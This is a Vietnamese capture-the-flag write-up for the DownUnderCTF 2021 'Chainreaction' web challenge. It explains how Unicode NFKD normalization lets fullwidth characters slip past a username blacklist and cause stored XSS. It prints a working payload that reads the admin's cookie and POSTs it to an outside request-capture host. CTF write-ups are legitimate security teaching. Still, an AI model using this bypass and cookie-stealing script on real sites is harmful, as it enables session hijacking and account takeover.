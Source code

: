 ```yaml
---
title: Chainreaction - DownUnderCTF 2021
author: HoangND
date: 2021-09-25 15:55:00 +0700
categories: [Writeups, DownUnderCTF 2021]
tags: [xss, web, unicode normalised]
---
```


## Recon

![image](https://user-images.githubusercontent.com/61985236/134768470-0e313bc6-67b4-487a-9542-1ebcc067b6ce.png){: width="972" height="589" } Full screen width and center alignment

Trang chủ của Chainreaction không có gì đáng bận tâm, ngoại trừ việc ảnh không load được, nhưng hiện tại vẫn không biết lí do thôi bỏ qua. Có hai button đăng ký đăng nhập. 
Ở đây các form này không khai thác được SQLi. Quan sát một chút form đăng ký

![image](https://user-images.githubusercontent.com/61985236/134768675-1fec4bb8-fc48-4249-b28e-fa60a39efc4a.png){:} Trang đăng ký

Username không được chứa các ký tự < và >. Vậy khả năng cao có thể bypass để khai thác lỗi XSS qua username. Cũng có một điều đặc biệt bên dưới form đăng nhập làm mình chú ý

![image](https://user-images.githubusercontent.com/61985236/134768537-778e468c-5013-4c07-968d-13b121315325.png){: style="max-width: 60%" } Trang đăng nhập

vậy là có trang đăng nhập riêng cho deverloper, vào luôn xem có gì hay ho

![image](https://user-images.githubusercontent.com/61985236/134768551-75408121-ca67-4966-9463-d759f69f5a25.png){: style="max-width: 100%" } Trang đăng nhập cho developer

Hiểu sương sương nghĩa là nếu bạn có tài khoản thì có thể vào đường dẫn /devchat, đặc biệt hơn nếu có tài khoản admin thì có thể vào /admin. Hiện tại đương nhiên mình không thể vào trang admin được rồi, 
ngó devchat xem có gì

![image](https://user-images.githubusercontent.com/61985236/134768594-a9f1049f-714b-4279-84cf-5c907c803954.png){: style="max-width: 60%" } /devchat

Vậy là có hẳn một trang public luôn đoạn chat nội bộ, đúng với mô tả của challenge 'Hệ thống được xây dựng bởi các sinh viên của trường đại học' 🤣🤣🤣. Đoạn chat có đề cập đến NFKD => NFKD normalised exploit. Tiếp theo tạo một tài khoản và đăng nhập, thì có thêm trang profile cho phép thay đổi thông tin cá nhân

![image](https://user-images.githubusercontent.com/61985236/134777616-375ddcc1-647c-47e6-848f-eb48744a8daa.png){: style="max-width: 60%" } /devchat

Ta thấy rằng username được hiển thị lên giao diện thông qua lời chào welcome, thử XSS ở đây xem thế nào.

![image](https://user-images.githubusercontent.com/61985236/134777639-266d3c3e-f3ed-4db0-8554-c2453e777a6f.png)

Như vậy hệ thống sử dụng blacklist để kiểm tra thông tin username. Như đã đề cập ở trên, đoạn chat có nhắc đến cái gọi là NFKD, vậy chính xác NFKD là gì và khai thác thế nào mình sẽ trình bày ngắn gọn dưới đây.

## Unicode Normalization vulnerability 

Normalization (chuẩn hóa) là quá trình thay đổi độ dài biểu diễn nhị phân đối với một ký tự cụ thể. Có hai kiểu tương đương giữa các ký tự là Canonical Equivalence và Compatibility Equivalence (mình không biết nên đưa về tiếng việt thế nào)
- Các ký tự tương đương theo kiểu Canonical Equivalence sẽ có cùng biểu diễn khi in hoặc hiển thị.
- Trong khi đó Compatibility Equivalence là kiểu tương đương mềm dẻo hơn khi biểu diễn của hai ký tự tương đương theo kiểu này có thể khác nhau.
Có 4 thuật toán chuẩn hóa được định nghĩa theo chuẩn Unicode: NFC, NFD, NFKD và NFKD, mỗi loại áp dụng kỹ thuật chuẩn hóa Canonical và Compatibility theo cách khác nhau. Bạn có thể đọc thêm về các kỹ thuật khác nhau tại Unicode.org.

Chuẩn hóa Compatibility mềm dẻo hơn do đó có thể bị hacker khai thác để vược qua blacklist. Ví dụ ký tự '⑧' sau khi được chuẩn hóa theo kỹ thuật Compatibility sẽ thành ký tự '8', như vậy hacker có thể dùng ký tự này để vượt qua blacklist chứa '8'.

Để hiểu rõ hơn về Unicode Normalization cũng như cách khai thác, bạn có thể tham khảo [tài liệu sau](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability).

## Solve challenge
Như vậy đã hiểu sơ qua về các khai thác NFKD normalization. Bắt tay vào exploit thôi, các ký tự đại diện mình sẽ cần để bypass blacklist sẽ là
- ＜(%ef%bc%9c) thay cho ký tự <
- ＞(%ef%bc%9e) thay cho ký tự >
- ⁱ (%e2%81%b1) thay cho ký tự i

Các ký tự tương đương bạn có thể tìm ở [tài liệu sau](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).
Test thử script cơ bản, sử dụng beeceptor như một mockup server để validate. Trường mình sử dụng để XSS sẽ là username trong trang profile

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
</script>
```

Để bypass blacklist, mình sẽ thay thế các ký tự < > i bằng các ký tự tương đương ở trên (ký tự i để bypass chuỗi 'script'). Như vậy payload của mình sẽ là

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```
Kết quả gửi request

![image](https://user-images.githubusercontent.com/61985236/134780213-5a10d8ba-d9c7-4964-ac05-88acec404486.png)

Vậy là đã tạo được một node script để chèn javascript, bên beeceptor cũng đã nhận được request

![image](https://user-images.githubusercontent.com/61985236/134780248-c3e390d4-f033-4648-97c8-b909cb7d7b95.png)

Oke, đến đây để mạo danh admin, cần phải có được cookie đăng nhập của admin. How ? Đầu tiên cần quay lại một chút trang chát chít của hội dev. Chính ông admin đã tiết lộ như sau

![image](https://user-images.githubusercontent.com/61985236/134780389-516004ed-1d2d-4b64-9d6b-8ca467f38ae5.png)

Do tính năng của trang admin chưa được hoàn thành, admin sẽ sử dụng 1 cookie tĩnh để xác thực, browser của admin chắc chắn còn lưu cookie này. Thế làm thế nào để admin mở profile tài khoản của mình để kích hoạt XSS gửi cookie về cho beeceptor? Câu trả lời nằm ở tính năng report ở trang profile

![image](https://user-images.githubusercontent.com/61985236/134780480-6e2a3b83-2fdc-4953-bad2-121450916e25.png)

Nghĩa là mình cứ ấn report là ông admin sẽ vào trang profile để check lỗi => XSS. Test nhanh kẻo nguội bằng payload sau

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var c = document.cookie;
  var xhr = new XMLHttpRequest();
  xhr.open("POST","https://hoangnd.free.beeceptor.com/exploit");
  xhr.send(c);
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```

![image](https://user-images.githubusercontent.com/61985236/134780741-24c0408b-9dce-4da6-a747-667e10a08d7b.png)

Tiếp theo là ấn report và quan sát bên beeceptor

![image](https://user-images.githubusercontent.com/61985236/134780783-21a99a0e-69dc-4e9e-bb5f-50cbeff2b536.png)

Vậy là đã lấy được cookie của admin, vào /admin lấy cờ thôi

![image](https://user-images.githubusercontent.com/61985236/134780811-72bcc33c-37a0-43c3-a85a-a9605df6b57f.png)

